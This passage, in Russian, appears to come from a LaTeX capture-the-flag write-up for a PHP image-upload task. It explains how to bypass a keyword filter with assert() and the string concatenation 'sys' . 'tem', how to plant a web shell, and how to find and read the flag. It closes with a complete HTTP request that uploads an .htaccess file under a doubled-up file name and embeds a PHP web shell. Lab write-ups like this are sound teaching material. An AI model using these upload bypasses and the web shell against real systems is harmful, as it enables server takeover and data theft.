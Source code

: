 \begin{enumerate}
    Далее также возможна некоторая вариативность в решении, например:
    
    Можно изучить документацию к языку программирования PHP на предмет наличия близких по функциональности конструкций и обнаружить функцию “assert”, которая не блокируется сервисом и при этом имеет функционал, сходный с функцией “eval”, которая динамически интерпретирует код, переданный ей в качестве аргумента. Далее, можно закодировать вызов system с помощью конкатенации двух строк, таким образом, обойдя фильтр, который ищет точное вхождение подстроки “system” в загружаемом файле.
    
    Можно сформировать веб-шелл динамически, получив заблокированное слово “system” путем конкатенации двух строк, например, “sys” . “tem”. Далее, воспользовавшись встроенными функциями PHP для работы с файлами, сохранить веб-шелл в файл с некоторым известным именем и следующим запросом обратиться к нему.

    После получения веб-шелла можно воспользоваться стандартной unix-\linebreak командой find для поиска флага, например: “find / -name flag.txt”. Изучив вывод команды, легко понять, что флаг находится по пути “/var/flag.txt”, считать который можно, опять же, воспользовавшись веб-шеллом, с помощью команды “cat /var/flag.txt”.

    Также приведем вектор атаки в виде HTTP-запроса для варианта решения, использующий конфигурационный файл .htaccess:
    \begin{verbatim}
POST / HTTP/1.1
Host: imageboxhard.2018.cyberchallenge.ru
Content-Length: 309
Content-Type: multipart/form-data; boundary=----boundary
Connection: close

------boundary
Content-Disposition: form-data; name="file"; 
    filename=".htacHTACCESScess"
Content-Type: image/png

php_flag engine 1
<Files .htaccess>
SetHandler application/x-httpd-php
Require all granted
Order allow,deny
Allow from all
</Files>
# <?php assert(\$_GET['cmd']); ?>
------boundary--
    \end{verbatim}
\end{enumerate}

